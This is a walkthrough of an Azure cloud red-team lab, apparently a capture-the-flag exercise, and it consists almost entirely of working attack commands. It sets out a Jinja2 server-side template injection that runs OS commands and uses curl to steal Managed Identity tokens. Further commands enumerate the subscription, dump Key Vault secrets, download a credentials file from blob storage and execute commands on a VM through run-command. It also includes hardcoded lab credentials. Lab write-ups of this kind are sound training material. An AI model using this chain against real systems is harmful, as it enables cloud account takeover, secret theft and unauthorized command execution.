





# Initial Access

- Application Credentials:

```
username:admin, password:f865b53623b121fd34ee5426c792e5c33af8c227
username:guest, password:7cf7eddb174125539dd241cd745391694250e526"
```



## Remote Code Execution (using SSTI)

- Detecting and Exploiting SSTI (Server Side Template Injection) to execute commands and get the Managed Identity Token.

```bash
# How to detect SSTI
{{7*7}}
{{7*'7'}}
```


```bash
# Execution of basic commands
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('$CMD').read() }}

# Read the environment variables
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('env').read() }}

# Getting the Managed Identity Token for management.azure.com
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(' curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read() }}

# Getting the Managed Identity Token for graph.microsoft.com
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(' curl "$IDENTITY_ENDPOINT?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read() }}
```


References: [Portswigger](https://portswigger.net/web-security/server-side-template-injection), [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html), [PayloadAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/)


# Enumeration  

- From the `accessToken` received use the following website to get additional information. [https://jwt.io](https://jwt.io)


```powershell
$accessToken=""   # accessToken goes here
$SUB=""           # change subscription name based on enumeration
$headers = @{ Authorization = "Bearer $accessToken" }
```


> Moving forward we just need the correct `accessToken` for the correct `resource`, URI endpoint and the supported API version to query resources using either the graph or Management endpoint. 

```powershell
# The providers returned by that API are the Azure services you’re currently allowed to enumerate with your token
$uri = "https://management.azure.com/subscriptions/$SUB/providers?api-version=2019-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```



```powershell
# App Service/Function Apps - Query the Azure Management API to list all App Service (Web App) resources in the subscription using your managed-identity token.
$uri = "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.Web/sites?api-version=2021-03-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```


```powershell
# Fetches the full resource details for the Web App (metadata, properties, identity, hostNames, state) from the Azure Management API using your managed-identity token.
$uri = "https://management.azure.com/subscriptions/$SUB/resourceGroups/cloud-red-lab/providers/Microsoft.Web/sites/cloud-red-lab-app-XXXXXX?api-version=2021-03-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```


```powershell
# Logic Apps
$uri = "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.Logic/workflows?api-version=2019-05-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```


- [Storage Services](https://learn.microsoft.com/en-us/azure/storage/)

```powershell
# Storage Providers - Query the Azure Management API to list all registered Storage providers in the subscription.
$uri = "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.Storage/?api-version=2022-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```


```powershell
# Storage Accounts - List all Storage Accounts under the subscription to identify accessible blob or file storage resources.
$uri = "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.Storage/storageAccounts?api-version=2022-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```


```powershell
# Specific Storage Account - Fetch detailed metadata, configurations, and identity information for a single Storage Account.
$uri = "https://management.azure.com/subscriptions/$SUB/resourceGroups/cloud-red-lab/providers/Microsoft.Storage/storageAccounts/internalblobXXXXXX?api-version=2022-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```


- [Key Vaults](https://learn.microsoft.com/en-us/azure/key-vault/)

```powershell
# Key Vaults - Enumerate all Key Vaults available within the subscription using your managed-identity token.
$uri = "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.KeyVault/vaults?api-version=2019-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | ConvertTo-Json
```


```powershell
# Specific Key Vault - Retrieve full metadata, configuration, and access policy information for a given Key Vault.
$uri = "https://management.azure.com/subscriptions/$SUB/resourceGroups/cloud-red-lab/providers/Microsoft.KeyVault/vaults/corpVault-XXXXXX?api-version=2019-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | ConvertTo-Json
```


```powershell
# Secrets - List all stored secrets within the specified Key Vault to identify credentials, SAS tokens, or sensitive data.
$uri = "https://management.azure.com/subscriptions/$SUB/resourceGroups/cloud-red-lab/providers/Microsoft.KeyVault/vaults/corpVault-XXXXXX/secrets?api-version=2019-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | ConvertTo-Json
```


```powershell
# Certificates - Enumerate certificates stored in the Key Vault that may contain private keys or service credentials.
$uri = "https://management.azure.com/subscriptions/$SUB/resourceGroups/cloud-red-lab/providers/Microsoft.KeyVault/vaults/corpVault-XXXXXX/certificates?api-version=2019-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | ConvertTo-Json
```



# Lateral Movement 

- Fetching Key Vault Token using the managed Identity for the App Service and Using the Vault Token to query the Key Vault. 

```powershell
# Fetch Key Vault Token
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(' curl -H "X-IDENTITY-HEADER: $IDENTITY_HEADER" "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2019-08-01"').read() }}
```


```powershell
$vaultToken=""
$headers = @{ Authorization = "Bearer $vaultToken" }
```


```powershell
$uri = "https://corpvault-XXXXXX.vault.azure.net/secrets/flag?api-version=7.4"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | ConvertTo-Json
```



```powershell
$uri = "https://corpvault-XXXXXX.vault.azure.net/secrets/flags-sas-url?api-version=7.4"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET
```


# Data Exfiltration

```powershell
# Download flag file from blob
curl "https://internalblobxxxxx.blob.core.windows.net/flag/flag3.txt?SASToken"
```


```powershell
# List container contents (readable)
curl "https://internalblobxxxxx.blob.core.windows.net/flag/?restype=container&comp=list&SASToken" 
```


```powershell
# Grab creds file
curl "https://internalblobxxxxx.blob.core.windows.net/flag/bkpuser-creds.json?SASToken" 
```


# Privilege Escalation and Persistence

```powershell
Get-Content .\bkpuser-creds.json
```


```powershell
# Desktop Virtualization provider - confirm Desktop Virtualization resources are registered/visible.
$uri = "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.DesktopVirtualization?api-version=2019-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```


```powershell
# List all VMs in the subscription - discover compute hosts you may pivot to.
$uri = "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.Compute/virtualMachines?api-version=2022-11-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET
```


```powershell
# Specific VM details - retrieve full metadata/config for the jump host (network, identity, extensions).
$uri = "https://management.azure.com/subscriptions/$SUB/resourceGroups/CLOUD-RED-LAB/providers/Microsoft.Compute/virtualMachines/jump-vm?api-version=2022-11-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```


Login to the portal using the credentials discovered.


Use device code login
```powershell
az login --use-device-code
```





```powershell
# Execute a command on the VM via Azure RunCommand to read a flag file (no SSH required if authorized).
az vm run-command invoke -g cloud-red-lab -n jump-vm --command-id RunShellScript --query "value[0].message" --scripts "id" -o tsv
```


```powershell
az vm run-command invoke -g cloud-red-lab -n jump-vm --command-id RunShellScript --query "value[0].message" --scripts "whoami" -o tsv
```


```powershell
az vm run-command invoke -g cloud-red-lab -n jump-vm --command-id RunShellScript --query "value[0].message" --scripts "cat /opt/flags/flag4.txt" -o tsv
```

